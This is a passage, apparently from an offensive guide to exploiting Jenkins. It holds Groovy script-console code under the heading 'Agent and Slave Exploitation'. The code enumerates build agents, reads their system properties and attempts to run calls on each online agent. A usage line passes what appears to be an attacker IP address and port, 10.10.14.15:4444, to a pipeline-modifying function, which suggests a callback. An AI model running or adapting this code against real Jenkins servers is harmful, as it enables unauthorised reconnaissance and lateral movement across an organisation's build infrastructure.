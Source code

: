 ```groovy
// Usage:
// modifyExistingPipeline("existing-project", "10.10.14.15", 4444)
```

### Agent and Slave Exploitation

#### Agent Registration and Control
```groovy
// Enumerate and control Jenkins agents/slaves
def manageJenkinsAgents() {
    try {
        def jenkins = Jenkins.instance
        def computers = jenkins.getComputers()
        
        println "[+] Jenkins Agent/Slave Analysis:"
        println "=" * 50
        
        computers.each { computer ->
            println "Agent Name: ${computer.getName()}"
            println "  Description: ${computer.getDescription()}"
            println "  Online: ${computer.isOnline()}"
            println "  Offline Cause: ${computer.getOfflineCause()}"
            
            if (computer.isOnline()) {
                def channel = computer.getChannel()
                if (channel) {
                    println "  OS: ${channel.call(new hudson.util.RemotingDiagnostics.GetSystemProperty('os.name'))}"
                    println "  Architecture: ${channel.call(new hudson.util.RemotingDiagnostics.GetSystemProperty('os.arch'))}"
                    println "  Java Version: ${channel.call(new hudson.util.RemotingDiagnostics.GetSystemProperty('java.version'))}"
                    println "  Working Directory: ${channel.call(new hudson.util.RemotingDiagnostics.GetSystemProperty('user.dir'))}"
                }
            }
            println "-" * 30
        }
        
        // Attempt to execute commands on agents
        computers.findAll { it.isOnline() && it.getName() != "master" }.each { computer ->
            try {
                def channel = computer.getChannel()
                if (channel) {
                    println "\n[+] Executing command on agent: ${computer.getName()}"
                    
                    def callable = new hudson.util.RemotingDiagnostics.GetSystemProperty('user.name')
                    def result = channel.call(callable)
                    println "  User: $result"
                }
            } catch (Exception e) {
                println "  Command execution failed: ${e.getMessage()}"
            }
        }
        
    } catch (Exception e) {
        println "Agent management failed: ${e.getMessage()}"
    }
}

manageJenkinsAgents()
```
